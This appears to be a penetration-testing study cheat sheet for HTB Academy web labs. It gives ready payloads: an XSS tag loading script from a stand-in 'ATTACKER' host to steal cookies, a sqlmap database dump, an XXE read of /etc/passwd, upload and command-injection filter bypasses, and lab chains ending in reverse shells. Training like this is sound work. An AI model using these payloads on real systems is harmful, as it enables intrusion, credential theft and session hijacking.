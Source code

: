 ### ⚔️ Exploitation Techniques
```bash
# File upload bypass
Content-Type: image/png  # MIME type manipulation

# SQL injection
sqlmap -r request.txt --dbms=mysql --dump -D database -T table

# XSS cookie stealing
<script src=http://ATTACKER/script.js></script>

# XXE local file read
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>

# Command injection bypass
%0a'command'  # Newline + single quotes
${IFS}        # Space bypass using environment variable
```

## 🎯 HTB Academy Labs

### 📋 Lab Solutions Summary
```cmd
Lab 1: IDOR vulnerability → Profile enumeration → Flag discovery
Lab 2: HTTP verb tampering → File upload → Webshell execution  
Lab 3: WordPress exploitation → Theme editor → Reverse shell
Lab 4: SQL injection → Database enumeration → User password extraction
Lab 5: XSS exploitation → Cookie stealing → Session hijacking
Lab 6: SSRF vulnerability → Local file read → Flag extraction
Lab 7: GitLab registration → Project access → Flag discovery
Lab 8: XXE injection → XML manipulation → File system access
Lab 9: Authentication brute force → Command injection → Flag retrieval
```

### 🔍 Key Learning Points
```cmd
# Professional approach:
- Systematic application testing
- Evidence collection for each finding
- Business impact assessment
- Remediation priority guidance

# Technical skills:
- Multi-vector exploitation chains
- Filter bypass techniques  
- Session management attacks
- Local file read escalation

# Real-world scenarios:
- Weak credential prevalence
- Development environment exposure
- Misconfigured public services
- Internal network pivot opportunities
```
